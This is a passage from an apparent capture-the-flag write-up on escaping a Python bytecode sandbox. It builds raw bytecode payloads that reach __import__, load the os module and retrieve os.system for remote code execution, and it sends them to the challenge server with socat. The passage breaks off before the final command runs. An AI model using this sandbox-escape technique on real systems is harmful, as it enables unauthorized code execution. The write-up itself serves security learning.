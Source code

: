 From now on, we can simply run the script and pipe the output directly to `socat` after amending our payload, saving time.

Running the payload:

```
$ python payload_writeup.py | socat - TCP4:95.216.233.106:42903  

Hello!
What's your name?
Hello <built-in function __import__>!
It's nice to meet you!
```

And now we're free to import whatever modules we want!

## Part 3: Getting RCE

So now that we can import modules, we can proceed with trying to get the flag. , getting a shell is (arguably) the most fun way of doing so, since you get complete RCE. 

The simplest way of getting code execution in Python is using `os.system()`. However, since it does not return its output, but only its status code, we only know whether a command succeeded or failed. However, it proves to not be an issue.

In order to load the `os` module, we append the following to our payload:
```python
payload += put_on_stack("os") + b"\x83\x01"
```
This results in `"os"` being added to the stack, and `__import__()` being called with `"os"` as an argument:

```
Hello!
What's your name?
Hello <module 'os' from '/usr/local/lib/python3.7/os.py'>!
It's nice to meet you!
```
(Note that from now on, only the challenge output is being shown, since the string to run the challenge remains the same as before.)

Since the `system()` function is an attribute normally fetched using dot notation, we need to use [`getattr()`](https://docs.python.org/3/library/functions.html#getattr), which is located in `co_names`, meaning we can fetch it directly.

The code we want to execute now is `getattr(globals()["__import__"]("os"),"system")`, which corresponds to the following payload:

```python
payload =  b"t\x04"  # loads getattr
payload += b"t\x02\x83\x00" # globals
payload += put_on_stack("__import__") + b"\x19\x00" # __import__ function
payload += put_on_stack("os") + b"\x83\x01" # os module
payload += put_on_stack("system") + b"\x83\x02"  # system function
```

It works:
